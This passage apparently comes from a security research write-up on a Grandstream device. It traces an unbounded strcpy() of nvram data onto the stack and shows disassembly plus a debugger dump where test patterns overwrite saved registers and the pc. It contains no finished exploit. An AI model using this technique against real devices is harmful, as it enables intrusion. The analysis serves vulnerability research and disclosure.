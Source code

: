 ```
0xb394    bl     #nvram_get@plt <nvram_get@plt>
 
   0xb398    mov    r1, r0
   0xb39c    add    r0, sp, #0x7b0
   0xb3a0    add    r0, r0, #0xc
 ► 0xb3a4    bl     #strcpy@plt <strcpy@plt>
        dest: 0xcee69bf4 ◂— 9 /* '\t' */           # stack
        src: 0xc6d3b0a9                            # nvram


```

The strcpy() function does not perform bounds checking, therefore, we are able to overflow with the "trusted" data returned from the nvram.

Further down the path, another interesting thing happens. The prologue of the 0x984C sub-routine will push the LR (0xB3C0) to the stack. The stack address pointing to the beginning of our payload is being passed (among others) as the argument for the 0x984C sub-routine:

![](https://www.secforce.com/media/images/grandstream-984c.width-800.png)

The 0x984C sub-routine:

![](https://www.secforce.com/media/images/984c-disasm.width-800.png)

The R7 register holds the pointer to our data (source), and the current stack pointer is being used as the destination for the strcpy() function at 0x9880, thus overflowing the stack. When the ioctl() system call at 0x9890 fails, the branch to the close() function at 0x98E0 is done, and the sub-routine will attempt to return:

![](https://www.secforce.com/media/images/call-graph.width-800.png)

Next, the sub-routine is going to its epilogue at 0x9938:

![](https://www.secforce.com/media/images/epilogue.width-800.png)

It restores the values from the overflowed stack, thus, popping our data into the respective registers:

```
[ Legend: Modified register | Code | Heap | Stack | String ]
──────────────────────────────────────────────────────────────────────────── registers ────
$r0  : 0x0       
$r1  : 0x00008915  →  0x80000000
$r2  : 0xffffffff
$r3  : 0x10      
$r4  : 0x8       
$r5  : 0xcecf6bc8  →  0x00000000
$r6  : 0xcecf6c04  →  "AAAAAAAAAAAAAAAAAAAABBBB"
$r7  : 0xffffffff
$r8  : 0x0       
$r9  : 0x0       
$r10 : 0x00016170  →  0x00000000
$r11 : 0x0       
$r12 : 0xffffffff
$sp  : 0xcecf6414  →  "AAAAAAAAAAAAAAAABBBB"
$lr  : 0x000098e8  →   b 0x9934
$pc  : 0x0000993c  →   pop {r4,  r5,  r6,  r7,  pc}
$cpsr: [negative zero carry overflow interrupt fast thumb]
──────────────────────────────────────────────────────────────────────────────── stack ────
0xcecf6414│+0x0000: "AAAAAAAAAAAAAAAABBBB"	 ← $sp
0xcecf6418│+0x0004: "AAAAAAAAAAAABBBB"
0xcecf641c│+0x0008: "AAAAAAAABBBB"
0xcecf6420│+0x000c: "AAAABBBB"
0xcecf6424│+0x0010: "BBBB"
0xcecf6428│+0x0014: 0x00000000
```